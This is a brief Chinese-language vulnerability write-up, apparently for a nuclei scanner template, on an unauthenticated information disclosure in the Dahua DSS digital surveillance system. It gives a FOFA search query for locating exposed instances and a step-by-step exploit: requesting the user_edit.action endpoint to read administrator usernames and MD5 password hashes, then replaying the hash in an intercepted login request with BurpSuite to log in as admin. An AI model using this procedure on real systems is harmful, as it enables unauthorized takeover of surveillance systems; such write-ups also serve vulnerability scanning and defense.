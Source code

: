 # nuclei-大华DSS数字监控系统-useredit信息泄露漏洞
Published: 9 July 2024

## Description
大华 DSS 数字监控系统 user_edit.action 接囗处存在信息泄露漏洞。未经身份验证的远程攻击者可利用此漏洞读取后台管理员账号密码等信息，破解密码后可直接登录后台，使系统处于极不安全的状态。
fofa: app.name="Dahua 大华DSS视频管理系统"
## Exploit Process
1. GET <your_ip>/admin/cascade_/user_edit.action?id=1 HTTP/1.1          （id可以换）
2. inspect网页获取md5格式的密码和用户名
3. BurpSuite 打开大华DSS登录界面，填写用户名密码拦截登录的请求，把密码替换成刚才的md5格式的密码
4. 登录成功
